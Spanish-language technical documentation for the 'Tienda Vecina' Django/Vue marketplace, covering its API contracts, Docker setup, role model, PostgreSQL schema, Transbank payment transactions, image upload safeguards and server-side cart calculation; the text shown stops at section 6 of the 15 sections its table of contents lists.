


# Documentación Técnica Integral - Tienda Vecina

Este documento especifica la arquitectura técnica, contratos de API REST, modelo de datos relacional, flujo de pagos, reglas de negocio y controles de seguridad implementados en la plataforma **Tienda Vecina** (`Tienda_Vecina_INACAP`).

## Índice de Contenidos

1. [Ficha Técnica del Proyecto y Stack Tecnológico](#sec-1-ficha-tecnica)
   - 1.1. [Stack Tecnológico y Dependencias](#sec-1-1-stack-tecnologico)
   - 1.2. [Diagrama de Arquitectura Global C4 (Container Level)](#sec-1-2-diagrama-c4)
   - 1.3. [Matriz Consolidada de Contratos de la API REST](#sec-1-3-matriz-api)
   - 1.4. [Orquestación de Contenedores con Docker Compose](#sec-1-4-docker-compose)
2. [Arquitectura de Usuarios, Perfiles y Roles (RBAC)](#sec-2-arquitectura-usuarios)
3. [Integración con PostgreSQL mediante Django ORM (psycopg 3)](#sec-3-integracion-postgresql)
   - 3.1. [Arquitectura de Conexión y Driver psycopg 3](#sec-3-1-arquitectura-psycopg3)
   - 3.2. [Configuración de Conexión en Variables de Entorno (.env)](#sec-3-2-variables-conexion)
   - 3.3. [Política Fail-Fast de Base de Datos](#sec-3-3-fail-fast-db)
   - 3.4. [Diccionario de Datos y Tablas Relacionales en PostgreSQL](#sec-3-4-diccionario-datos)
   - 3.5. [Transacciones ACID, Concurrencia e Integridad Referencial](#sec-3-5-transacciones-sqli)
   - 3.6. [Administración de PostgreSQL y Migraciones](#sec-3-6-administracion-cluster)
4. [Especificaciones de Seguridad de Imágenes (900x600 y <= 1 MB)](#sec-4-seguridad-imagenes)
   - 4.1. [Pre-escalado en Cliente y Procesamiento en Servidor](#sec-4-1-algoritmo-procesamiento)
   - 4.2. [Defensa contra Bombas de Descompresión (Pixel Bombs)](#sec-4-2-pixel-bombs)
5. [Especificaciones ADS (+250 Caracteres) y URL Limpia](#sec-5-caracteristicas-ads)
   - 5.1. [Regla de Negocio ADS (+250 Caracteres)](#sec-5-1-regla-ads)
   - 5.2. [URL Limpia y Exposición Comercial](#sec-5-2-url-limpia)
   - 5.3. [Privacidad de Datos Personales (PII) vs Transparencia Comercial](#sec-5-3-sernac-pii)
   - 5.4. [Panel de Vendedores ("Mis Publicaciones")](#sec-5-4-panel-vendedor)
   - 5.5. [Edición, Recálculo de URL Limpia y Baja de Publicaciones](#sec-5-5-edicion-baja)
   - 5.6. [Evaluaciones Verificadas por Compra Real](#sec-5-6-valoracion-compradores)
   - 5.7. [Módulo de Tienda Oficial, Moderación y Enlace HTTPS Seguro](#sec-5-7-tienda-oficial)
6. [Seguridad Crítica - Cálculo de Carrito en Servidor (Anti-Tampering JS)](#sec-6-calculo-carrito)
7. [Pasarela de Pagos - Transbank Webpay Plus Fail-Closed](#sec-7-pasarela-transbank)
8. [Taxonomía de Categorías y Selector Territorial](#sec-8-taxonomia-categorias)
   - 8.1. [Catálogo Oficial de 14 Categorías](#sec-8-1-catalogo-categorias)
   - 8.2. [Módulo de Despacho y Selector Territorial de Comunas Chilenas](#sec-8-2-selector-comunas)
9. [Prevención Integral contra Cross-Site Scripting (XSS) y Endurecimiento HTTP](#sec-9-prevencion-xss)
   - 9.1. [Definición y Clasificación de Amenazas XSS](#sec-9-1-definicion-xss)
   - 9.2. [Estándar OWASP de Defensa en Profundidad](#sec-9-2-estandar-owasp)
   - 9.3. [Preservación de Puntuación Comercial vs Bloqueo de Scripts](#sec-9-3-restriccion-caracteres)
   - 9.4. [Defensas en Frontend (Vue 3 y security.js)](#sec-9-4-defensas-frontend)
   - 9.5. [Defensas en Backend (Django REST Framework y ORM)](#sec-9-5-defensas-backend)
   - 9.6. [Cabeceras HTTP de Seguridad y Auditoría Sanitizada](#sec-9-6-cabeceras-seguridad)
   - 9.7. [Matriz de Vectores de Ataque XSS vs Mitigaciones](#sec-9-7-matriz-mitigaciones)
10. [Gestión de Secretos (.env) y Blindaje ISO/IEC 27001](#sec-10-gestion-secretos)
11. [Guía de Pruebas Automatizadas y Operación](#sec-11-pruebas-operacion)
12. [Estándares de Código Limpio (Clean Code)](#sec-12-clean-code)
13. [Marco Integral de Seguridad (ISO/IEC 27001 & OWASP Top 10)](#sec-13-marco-seguridad)
14. [Auditoría de Cumplimiento y Análisis de Brechas (Gap Analysis)](#sec-14-auditoria-cumplimiento)
    - 14.1. [Diferencias Conceptuales - Gobernanza (ISO 27001) vs Código (OWASP)](#sec-14-1-diferencias-conceptuales)
    - 14.2. [Matriz de Cumplimiento Técnico OWASP Top 10:2021](#sec-14-2-cumplimiento-owasp)
    - 14.3. [Matriz de Cumplimiento ISO/IEC 27001:2022 Anexo A](#sec-14-3-cumplimiento-iso27001)
    - 14.4. [Análisis de Brecha (Gap Analysis) hacia Certificación Productiva](#sec-14-4-analisis-brecha)
15. [Glosario de Siglas y Términos](#sec-15-glosario)

---

<a id="sec-1-ficha-tecnica"></a>
## 1. Ficha Técnica del Proyecto y Stack Tecnológico

<a id="sec-1-1-stack-tecnologico"></a>
### 1.1. Stack Tecnológico y Dependencias

| Capa | Tecnología / Componente | Versión / Referencia | Propósito Arquitectónico |
| :--- | :--- | :--- | :--- |
| **Gateway / Proxy Inverso** | Nginx (`nginx-unprivileged`) | 1.27 Alpine | Entrega de SPA estática, `/media/`, `/static/` y proxy inverso hacia Gunicorn |
| **Backend API** | Python + Django + DRF + Gunicorn | 3.11+ / Django 5+ / DRF 3.18 / Gunicorn 23+ | API REST modular, autenticación JWT con revocación, rate limiting y ORM seguro |
| **Base de Datos** | PostgreSQL (`psycopg 3`) | 16 Alpine / `psycopg >= 3.2` | Persistencia transaccional ACID, bloqueos pesimistas `select_for_update` y UUID nativo |
| **Frontend SPA** | Vue 3 + Vite + Tailwind CSS + Pinia | Vue 3.5.44 / Vite 8.3.5 / Tailwind 4.3.4 / Pinia 4.1.0 | Interfaz reactiva desacoplada con versiones fijadas en `package.json` y `package-lock.json` |
| **Motor Gráfico** | HTML5 Canvas + Pillow | Pillow >= 11.0 | Pre-escalado cliente, validación de magic bytes, normalización 900x600 y JPEG $\le$ 1 MB |
| **Pasarela de Pagos** | Transbank SDK | `transbank-sdk >= 6.1.0` | Integración *Fail-Closed* Webpay Plus (redirección oficial POST y commit atómico) |
| **Seguridad de Secretos** | `python-dotenv` | `>= 1.0.1` | Variables de entorno aisladas en `.env` con claves independientes para Django y JWT |

<a id="sec-1-2-diagrama-c4"></a>
### 1.2. Diagrama de Arquitectura Global C4 (Container Level)



<a id="sec-1-3-matriz-api"></a>
### 1.3. Matriz Consolidada de Contratos de la API REST

| Método | Endpoint | Autenticación | Rol Mínimo | Payload / Parámetros | Códigos HTTP | Propósito |
| :---: | :--- | :---: | :---: | :--- | :---: | :--- |
| `POST` | `/api/v1/auth/register/` | Pública (`3/min`) | Cualquiera | `{"email", "password", "full_name", "custom_alias", "rut", "role"}` | `201`, `400`, `429` | Registro atómico (`transaction.atomic`) de `UserCredential`, `Persona`, `UserProfile` y `UserRol` |
| `POST` | `/api/v1/auth/login/` | Pública (`5/min`) | Cualquiera | `{"email", "password"}` | `200`, `400`, `429` | Verificación PBKDF2 SHA256, bloqueo tras 5 fallos y emisión de JWT con `jti` (24h) |
| `POST` | `/api/v1/auth/logout/` | Requerida | Cualquiera | *Bearer JWT* | `200`, `401` | Revoca el JWT actual registrando su `jti` en `accounts_revokedtoken` |
| `GET` | `/api/v1/auth/me/` | Requerida | Cualquiera | *None* | `200`, `401` | Obtiene `UserCredential`, roles activos y `UserProfilePrivateSerializer` (incluye `persona_nombre` propio) |
| `POST` | `/api/v1/auth/upgrade-seller/` | Requerida | `BUYER` / `SELLER` / `ADMIN` | *None* | `200`, `401` | Asciende a `SELLER` sincronizando `UserRol`; cuentas `ADMIN` conservan privilegios administrativos |
| `POST` | `/api/v1/auth/register-store/` | Requerida | `SELLER` / `ADMIN` | `{"store_name": "...", "store_url": "https://..."}` | `200`, `400`, `403` | Solicita Tienda Oficial (`PENDING` para `SELLER`, `APPROVED` para `ADMIN`) con URL estricta `https://` |
| `POST` | `/api/v1/auth/approve-store/<uuid:profile_id>/` | Requerida | `ADMIN` | `{"approved": true \| false}` | `200`, `400`, `403`, `404` | Aprueba o rechaza solicitud de Tienda Oficial |
| `GET` | `/api/v1/products/` | Pública | Cualquiera | `?page=`, `?page_size=`, `?category=`, `?q=`, `?min_price=`, `?max_price=`, `?free_shipping=`, `?ordering=` | `200` | Catálogo paginado (12/pág, máx. 48) con bounds globales de precio |
| `POST` | `/api/v1/products/` | Requerida | `SELLER` / `ADMIN` | `title`, `price`, `description`, `caracteristicas_ads`, `category`, `image_files` / `existing_images` | `201`, `400`, `403` | Crea producto, valida URLs de galería, procesa fotos 900x600 $\le$ 1 MB y genera slug |
| `GET` | `/api/v1/products/<lookup>/` | Pública | Cualquiera | *None* | `200`, `404` | Detalle por `slug` o `UUID`; expone `public_alias` (o `official_store_name` aprobada) sin PII civil |
| `GET` | `/api/v1/products/categories/` | Pública | Cualquiera | *None* | `200` | Listado de las 14 categorías oficiales |
| `GET` | `/api/v1/products/my-products/` | Requerida | `SELLER` / `ADMIN` | *None* | `200`, `401`, `403` | Lista únicamente las publicaciones del `UserProfile` autenticado |
| `PUT` / `PATCH` | `/api/v1/products/<lookup>/` | Requerida | Dueño / `ADMIN` | Campos editables de producto | `200`, `400`, `403`, `404` | Actualiza publicación, galería validada y slug si cambia título |
| `DELETE` | `/api/v1/products/<lookup>/` | Requerida | Dueño / `ADMIN` | *None* | `200`, `403`, `404` | Elimina publicación del catálogo |
| `GET` | `/api/v1/products/<lookup>/review/` | Pública | Cualquiera | *None* | `200`, `404` | Lista opiniones y promedio real de un producto |
| `POST` | `/api/v1/products/<lookup>/review/` | Requerida | Comprador verificado | `{"rating": 1..5, "comment": "..."}` | `201`, `400`, `403`, `404` | Crea reseña única (`unique_together`) exigiendo orden `AUTHORIZED` previa y prohibiendo auto-reseña |
| `POST` | `/api/v1/payments/cart/calculate/` | Pública (`AllowAny`) | Invitado o Autenticado | `{"items": [{"product_id": "uuid", "quantity": 1}]}` | `200`, `400` | Cálculo de totales en servidor ORM (soporta compra como invitado o usuario autenticado) |
| `POST` | `/api/v1/payments/transbank/init/` | Pública (`AllowAny`) | Invitado o Autenticado | `{"items": [...], "payment_method": "WEBPAY_PLUS"}` | `201`, `400`, `502` | Inicia transacción con Transbank SDK (*Fail-Closed*) y crea `Order` `INITIALIZED` |
| `GET` / `POST` | `/api/v1/payments/transbank/commit/` | Pública (`AllowAny`) | Callback Webpay / API | `token_ws` / `{"token": "..."}` / `TBK_TOKEN` | `200`, `302`, `400`, `404`, `409` | Confirma pago de forma idempotente y atómica con descuento de stock o reversa automática |
| `GET` | `/api/v1/payments/methods/` | Pública | Cualquiera | *None* | `200` | Catálogo de medios de pago del carrusel |

> **Nota sobre Checkout como Invitado (*Guest Checkout*) y Aislamiento de Órdenes:** Los endpoints de carrito e inicialización/confirmación de pago permiten operar tanto a compradores autenticados (asociando `order.buyer_profile = request.user.user_profile`) como a visitantes sin sesión previa (`buyer_profile = None`). No existen endpoints públicos para listar ni consultar órdenes por ID secuencial o `buy_order`; la confirmación opera únicamente mediante el `token_ws` criptográfico de un solo uso emitido por Transbank.

<a id="sec-1-4-docker-compose"></a>
### 1.4. Orquestación de Contenedores con Docker Compose

El archivo [docker-compose.yml](docker-compose.yml) define tres servicios aislados:
- `db` (`postgres:16-alpine`): sin puertos públicos expuestos en `0.0.0.0`, contraseña obligatoria vía `DB_PASSWORD`, volumen persistente `pgdata` y `healthcheck` con `pg_isready`.
- `backend`: construido desde [backend/Dockerfile](backend/Dockerfile) con usuario sin privilegios `appuser`, ejecutando `migrate --noinput`, `collectstatic --noinput` (sin resiembra automática) y `gunicorn` con 4 workers sobre el puerto interno `8000`. Monta los volúmenes `media_data` y `static_data`.
- `nginx`: construido desde [frontend/Dockerfile](frontend/Dockerfile) con usuario sin privilegios (`nginxinc/nginx-unprivileged`) y configuración [nginx/nginx.conf](nginx/nginx.conf), exponiendo el puerto `80:8080` para servir el bundle `dist/`, `/media/`, `/static/` y proxear `/api/` y `/admin/` hacia `backend:8000`.

```bash
cp .env.example backend/.env
# Configura SECRET_KEY, JWT_SECRET_KEY y DB_PASSWORD en backend/.env
docker compose --env-file backend/.env up --build -d
docker compose logs -f
docker compose down
```

---

<a id="sec-2-arquitectura-usuarios"></a>
## 2. Arquitectura de Usuarios, Perfiles y Roles (RBAC)

La capa de identidades separa credenciales privadas, perfil operativo y datos civiles en [backend/apps/accounts/models.py](backend/apps/accounts/models.py):

```mermaid
classDiagram
    class UserCredential {
        +UUID id
        +string email
        +string role (ADMIN|SELLER|BUYER)
        +string password_hash (PBKDF2 SHA256)
        +int failed_login_attempts
        +datetime locked_until
        +boolean is_active
        +is_locked()
    }

    class UserProfile {
        +UUID id
        +string public_alias
        +decimal reputation_score
        +boolean is_verified_seller
        +boolean is_official_store
        +string official_store_status (NONE|PENDING|APPROVED|REJECTED)
        +string official_store_name
        +string official_store_url
    }

    class Persona {
        +UUID id
        +string rut
        +string nombres
        +string apellidos
        +string telefono
        +string direccion
        +nombre_completo()
    }

    class Rol {
        +UUID id
        +string nombre
        +string codigo (SELLER|BUYER|ADMIN)
    }

    class UserRol {
        +UUID id
        +boolean activo
        +datetime fecha_asignacion
    }

    class RevokedToken {
        +bigint id
        +string jti
        +datetime revoked_at
        +datetime expires_at
    }

    UserCredential "1" -- "1" UserProfile : Vinculado 1:1
    UserProfile "1" -- "1" Persona : Conecta 1:1
    UserProfile "1" -- "N" UserRol : Historial de roles
    Rol "1" -- "N" UserRol : Catálogo RBAC
    UserCredential "1" -- "N" RevokedToken : Tokens revocados
```

### Consolidación de Autoridad RBAC
- **`UserCredential` (modelo `Userdjango` personalizado `accounts_usercredential`):** Constituye la **fuente de verdad canónica** de autorización (`role`: `BUYER`, `SELLER`, `ADMIN`). El permiso `IsSellerOrAdmin` evalúa directamente `request.user.role`.
- **`Rol` y `UserRol`:** La señal `post_save` sobre `UserCredential` sincroniza atómicamente la tabla `UserRol` desactivando asignaciones obsoletas (`activo=False`) y activando el rol vigente.
- **`UserProfile` y `Persona`:** Desacoplan las operaciones públicas del marketplace (productos, reseñas, órdenes) respecto de los datos civiles privados (`Persona`).

---

<a id="sec-3-integracion-postgresql"></a>
## 3. Integración con PostgreSQL mediante Django ORM (`psycopg 3`)

<a id="sec-3-1-arquitectura-psycopg3"></a>
### 3.1. Arquitectura de Conexión y Driver `psycopg 3`
La aplicación opera con **PostgreSQL 16** a través de `psycopg` (versión 3, `django.db.backends.postgresql`), aprovechando mapeo nativo de tipos `UUID` de 128 bits, sentencias parametrizadas en servidor y conexiones persistentes (`CONN_MAX_AGE = 60`).

<a id="sec-3-2-variables-conexion"></a>
### 3.2. Configuración de Conexión en Variables de Entorno (`.env`)
En [backend/config/settings.py](backend/config/settings.py), los parámetros de base de datos se leen desde variables de entorno declaradas en `.env`:

```env
DB_ENGINE=django.db.backends.postgresql
DB_NAME=inacap_ecommerce
DB_USER=postgres
DB_PASSWORD=<CHANGE_ME_STRONG_DB_PASSWORD>
DB_HOST=127.0.0.1
DB_PORT=5432
```

<a id="sec-3-3-fail-fast-db"></a>
### 3.3. Política Fail-Fast de Base de Datos
Para prevenir escenarios de *split-brain* y pérdida silenciosa de órdenes en entornos multi-worker, `settings.py` **no realiza sondeos TCP ni conmuta automáticamente a SQLite** cuando PostgreSQL no responde:
- Si `DB_ENGINE` apunta a PostgreSQL y el servidor no está disponible, Django aborta la operación (*Fail-Fast*) permitiendo que Docker Compose (`depends_on: condition: service_healthy`) gestione la espera y reinicios.
- Para pruebas locales sin PostgreSQL activo, se requiere configurar explícitamente `DB_ENGINE=django.db.backends.sqlite3` en el entorno local o pasar `TEST_USE_SQLITE=True` al ejecutar la suite de tests.

<a id="sec-3-4-diccionario-datos"></a>
### 3.4. Diccionario de Datos y Tablas Relacionales en PostgreSQL

El esquema `public` gestiona **20 tablas relacionales**:

| # | Tabla | Aplicación / Módulo | Descripción |
| :---: | :--- | :--- | :--- |
| 1 | `accounts_persona` | `accounts` | Identidad civil privada (RUT, nombres, apellidos, teléfono, dirección) |
| 2 | `accounts_usercredential` | `accounts` | Credenciales (`email`, hash PBKDF2, rol canónico, bloqueo por intentos) |
| 3 | `accounts_usercredential_groups` | `accounts` | Relación M2M de grupos Django |
| 4 | `accounts_usercredential_user_permissions` | `accounts` | Relación M2M de permisos Django |
| 5 | `accounts_userprofile` | `accounts` | Perfil intermedio (`public_alias`, reputación, estado de tienda oficial) |
| 6 | `accounts_rol` | `accounts` | Catálogo de roles (`ADMIN`, `SELLER`, `BUYER`) |
| 7 | `accounts_userrol` | `accounts` | Asignación auditable sincronizada de roles por perfil |
| 8 | `accounts_revokedtoken` | `accounts` | Registro denylist de `jti` de JWT revocados en logout |
| 9 | `products_category` | `products` | Catálogo de 14 categorías comerciales |
| 10 | `products_product` | `products` | Publicaciones (`slug`, `price`, `stock`, `caracteristicas_ads`, `images`) |
| 11 | `products_productreview` | `products` | Reseñas verificadas con restricción `unique_together(product, user_profile)` |
| 12 | `payments_order` | `payments` | Órdenes (`buy_order`, `total_amount`, `transbank_token`, estado `INITIALIZED \| AUTHORIZED \| FAILED \| REVERSED`) |
| 13 | `payments_orderitem` | `payments` | Ítems inmutables por orden con precio unitario al momento de compra |
| 14 | `auth_group` | `django.auth` | Grupos estándar de Django |
| 15 | `auth_group_permissions` | `django.auth` | Permisos asignados a grupos |
| 16 | `auth_permission` | `django.auth` | Catálogo de permisos de modelos |
| 17 | `django_admin_log` | `django.admin` | Auditoría interna del panel administrativo |
| 18 | `django_content_type` | `django.contenttypes` | Registro de tipos de modelo |
| 19 | `django_migrations` | `django` | Historial de migraciones aplicadas |
| 20 | `django_session` | `django.sessions` | Sesiones administrativas |

<a id="sec-3-5-transacciones-sqli"></a>
### 3.5. Transacciones ACID, Concurrencia e Integridad Referencial
1. **Consultas Parametrizadas ORM:** Todas las lecturas y mutaciones utilizan QuerySets del ORM (`filter`, `select_related`, `aggregate`, `F()`), enviando sentencias parametrizadas vía `psycopg 3`.
2. **Aislamiento y Bloqueo Pesimista en Pagos (`TransbankCommitAPIView`):**
   - La confirmación se ejecuta íntegramente bajo `with transaction.atomic():`.
   - Bloquea la orden (`Order.objects.select_for_update()`) y verifica `order.status == 'INITIALIZED'` para garantizar idempotencia contra ataques de repetición (*replay*).
   - Bloquea los productos asociados en orden ascendente de `id` (`Product.objects.select_for_update().order_by('id')`) para prevenir *deadlocks* y descuenta inventario mediante actualización condicional atómica `Product.objects.filter(id=..., stock__gte=qty).update(stock=F('stock') - qty)` dentro de un `savepoint`.
   - Si el inventario resulta insuficiente al momento del commit, dispara `TransbankWebpayService.refund_transaction()`, marca la orden `REVERSED` y responde `HTTP 409 Conflict`.

<a id="sec-3-6-administracion-cluster"></a>
### 3.6. Administración de PostgreSQL y Migraciones

```bash
# Aplicar migraciones en el contenedor backend (o entorno local activado)
docker compose exec backend python manage.py migrate
# En entorno local:
cd backend && python manage.py migrate
```

---

<a id="sec-4-seguridad-imagenes"></a>
## 4. Especificaciones de Seguridad de Imágenes (900x600 y $\le$ 1 MB)

Implementación en [backend/apps/products/utils.py](backend/apps/products/utils.py) y [frontend/src/utils/security.js](frontend/src/utils/security.js).

<a id="sec-4-1-algoritmo-procesamiento"></a>
### 4.1. Pre-escalado en Cliente y Procesamiento en Servidor
1. **Pre-escalado en Navegador (`resizeImageBeforeUpload`):** Antes de enviar el `FormData`, el frontend pre-escala las imágenes a un máximo de 900x600 píxeles en `<canvas>` JPEG (`quality=0.85`), reduciendo el ancho de banda y la carga de CPU en el servidor. Además, las vistas `CreateProductModal.vue` y `EditProductModal.vue` liberan memoria DOM invocando `URL.revokeObjectURL` al eliminar miniaturas o desmontar el modal.
2. **Guarda de Tamaño Crudo:** El servidor rechaza archivos vacíos o superiores a `10 MB` (`MAX_UPLOAD_BYTES`) antes de decodificarlos.
3. **Lista Blanca y Magic Bytes:** Solo se admiten extensiones `.jpg`, `.jpeg`, `.png`, `.webp` y formatos reales verificados por Pillow (`ALLOWED_FORMATS = {'JPEG', 'PNG', 'WEBP'}` + `image.verify()`).
4. **Lienzo Neutro 900x600 y Compresión Acotada:** Reconstruye la imagen en modo `RGB` sobre fondo blanco `900x600` (`LANCZOS`) y comprime en un máximo de dos pasadas (`quality=85`, fallback `quality=65` si supera `1,048,576 bytes`).

<a id="sec-4-2-pixel-bombs"></a>
### 4.2. Defensa contra Bombas de Descompresión (Pixel Bombs)
En [backend/apps/products/utils.py](backend/apps/products/utils.py) se configura `Image.MAX_IMAGE_PIXELS = 10_000_000`. Pillow aborta cualquier imagen superior a 10 megapíxeles antes de asignar memoria RAM.

---

<a id="sec-5-caracteristicas-ads"></a>
## 5. Especificaciones ADS (+250 Caracteres) y URL Limpia

<a id="sec-5-1-regla-ads"></a>
### 5.1. Regla de Negocio ADS (+250 Caracteres)
El campo `caracteristicas_ads` (**Anuncio / Especificación Técnica Detallada de Producto**) exige más de 250 caracteres (`MinLengthValidator(251)` en modelo y validación en `ProductCreateUpdateSerializer`), con contador interactivo en [CreateProductModal.vue](frontend/src/components/CreateProductModal.vue) y [EditProductModal.vue](frontend/src/components/EditProductModal.vue).

<a id="sec-5-2-url-limpia"></a>
### 5.2. URL Limpia y Exposición Comercial
El sistema genera slugs basados en el título del producto (ej. `/producto/teclado-mecanico-custom-pro-rgb`), resueltos en [ProductCleanUrlView.vue](frontend/src/components/ProductCleanUrlView.vue) y `/api/v1/products/<lookup>/`.

<a id="sec-5-3-sernac-pii"></a>
### 5.3. Privacidad de Datos Personales (PII) vs Transparencia Comercial
Para alinear la transparencia comercial con el principio de minimización de datos (**ISO/IEC 27001 A.8.3** y **Ley N° 19.628**):
- **Publicaciones C2C (Personas Naturales):** El catálogo público y la ficha del producto exponen exclusivamente el seudónimo comercial `UserProfile.public_alias`. La identidad civil (`Persona.nombre_completo`, `rut`, `telefono`, `direccion`) **nunca** se expone en el catálogo ni en la API pública de productos (`UserProfileSerializer` omite `persona_nombre`).
- **Tiendas Oficiales Verificadas:** Cuando un vendedor aprueba el proceso de verificación administrativa, la ficha expone su razón o nombre comercial oficial (`official_store_name`).
- **Acceso Propio al Titular:** El endpoint autenticado `GET /api/v1/auth/me/` utiliza `UserProfilePrivateSerializer` para mostrar al propio usuario sus datos personales.

<a id="sec-5-4-panel-vendedor"></a>
### 5.4. Panel de Vendedores ("Mis Publicaciones")
La vista [SellerProductsView.vue](frontend/src/components/SellerProductsView.vue) y `GET /api/v1/products/my-products/` restringen la gestión exclusivamente a cuentas `SELLER` o `ADMIN` autenticadas (`IsSellerOrAdmin`), filtrando los productos pertenecientes al `UserProfile` del usuario y aplicando verificación de propiedad `IsAccountOwnerOrReadOnly` en edición y borrado.

<a id="sec-5-5-edicion-baja"></a>
### 5.5. Edición, Recálculo de URL Limpia y Baja de Publicaciones
[EditProductModal.vue](frontend/src/components/EditProductModal.vue) permite guardar cambios manteniendo la vista de panel (*"Guardar"*) o navegar inmediatamente a la ficha pública actualizada (*"Guardar y ver página de venta"*). Al cambiar el título, el serializador recalcula el `slug` de forma única.

<a id="sec-5-6-valoracion-compradores"></a>
### 5.6. Evaluaciones Verificadas por Compra Real
- Los productos nuevos nacen con `rating = None` y `reviews_count = 0`.
- Para emitir una calificación en `POST /api/v1/products/<lookup>/review/`, el backend exige:
  1. Que el evaluador **no sea el vendedor** del producto (bloqueo de auto-reseñas).
  2. Que exista al menos un `OrderItem` asociado al `buyer_profile` del usuario en una orden con estado **`AUTHORIZED`**.
  3. Unicidad por comprador y producto (`unique_together = ('product', 'user_profile')`), impidiendo múltiples calificaciones del mismo usuario.

<a id="sec-5-7-tienda-oficial"></a>
### 5.7. Módulo de Tienda Oficial, Moderación y Enlace HTTPS Seguro
- Al enviar `POST /api/v1/auth/register-store/` desde [RegisterStoreModal.vue](frontend/src/components/RegisterStoreModal.vue), las cuentas `SELLER` quedan en estado `official_store_status = 'PENDING'` con `is_official_store = False`, requiriendo aprobación explícita de un administrador vía `POST /api/v1/auth/approve-store/<uuid:profile_id>/`.
- La URL del sitio web (`store_url`) exige estrictamente esquema **`https://`** en backend y frontend.
- En [ProductCleanUrlView.vue](frontend/src/components/ProductCleanUrlView.vue), antes de abrir la URL oficial en una pestaña externa, se presenta una ventana de confirmación mostrando el dominio de destino exacto para mitigar riesgos de phishing.

---

<a id="sec-6-calculo-carrito"></a>
## 6. Seguridad Crítica - Cálculo de Carrito en Servidor (Anti-Tampering JS)

El frontend envía únicamente identificadores UUID de productos y cantidades enteras positivas hacia `/api/v1/payments/cart/calculate/` y `/api/v1/payments/transbank/init/`.
En [backend/apps/payments/services.py](backend/apps/payments/services.py), `calculate_safe_cart_totals`:
- Rechaza arreglos vacíos, tipos no-dict, UUIDs malformados, booleanos, decimales, strings o cantidades $\le 0$ con `ValidationError` (`HTTP 400`).
- Agrega cantidades si un mismo producto aparece repetido en la lista y verifica `product.stock >= total_requested_qty`.
